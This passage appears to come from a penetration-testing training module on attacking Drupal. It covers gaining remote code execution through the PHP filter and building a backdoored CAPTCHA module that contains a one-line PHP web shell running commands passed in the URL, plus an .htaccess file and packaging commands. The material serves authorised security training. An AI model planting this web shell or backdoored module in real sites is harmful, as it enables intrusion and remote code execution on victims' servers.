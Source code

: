 Note: Location may differ based on the Drupal version and may be under the Extend menu.

![](https://academy.hackthebox.com/storage/modules/113/install_module.png)

From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.

Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select `PHP code` from the `Text format` dropdown.

With either of these examples, we should keep our client apprised and obtain permission before making these sorts of changes. Also, once we are done, we should remove or disable the `PHP Filter` module and delete any pages that we created to gain remote code execution.

* * *

## Uploading a Backdoored Module

Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

Download the archive and extract its contents.

```shell
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz

```

Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>

```

Next, we need to create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>

```

The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```shell
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>

```
